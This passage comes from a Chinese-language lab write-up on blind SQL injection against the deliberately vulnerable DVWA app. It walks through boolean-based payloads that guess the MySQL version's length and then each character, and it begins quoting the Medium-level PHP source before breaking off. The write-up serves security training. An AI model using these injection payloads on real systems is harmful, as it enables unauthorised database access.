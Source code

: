 #### 猜测版本号

查询MySQL版本语句为

```mysql
select version();
```



首先测试版本号的长度 

​	`length()` 函数获取字符串长度

​	`substr( string, start, length)` 函数截取字符串

​	用 `substr()` 函数提取返回的版本号字符串，使用 `length()` 函数和我们的猜测值比较是否相等

```mysql
# 分别测试以下语句
1' and length(substr((select version()),1)) = 1 #
1' and length(substr((select version()),1)) = 2 #
1' and length(substr((select version()),1)) = 3 #
1' and length(substr((select version()),1)) = 4 #
1' and length(substr((select version()),1)) = 5 #
1' and length(substr((select version()),1)) = 6 #
```

直到 `1' and length(substr((select version()),1)) = 6 #`，返回查询成功，则说明版本号为六位

![image-20220823164305127](Lab7_SQL Injection.assets/image-20220823164305127.png)



然后测试出版本号

周所周知，一般版本号都是 x.x.x.x 之类的组成 ( 'x' 代表数字)，而 MySQL 一般为 x.x.xx

进行逐个尝试或猜测

```mysql
1' and substr((select version()),1,1) = '5' #
1' and substr((select version()),2,1) = '.' #
1' and substr((select version()),3,1) = '5' #
1' and substr((select version()),4,1) = '.' #
1' and substr((select version()),5,1) = '3' #
1' and substr((select version()),6,1) = '3' #
```

![image-20220823164749777](Lab7_SQL Injection.assets/image-20220823164749777.png)

最后拼接得到 MySQL 版本为 5.5.33



## Medium

### 源代码

```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $id = $_POST[ 'id' ];
    $exists = false;

    switch ($_DVWA['SQLI_DB']) {
        case MYSQL:
            $id = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $id ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
```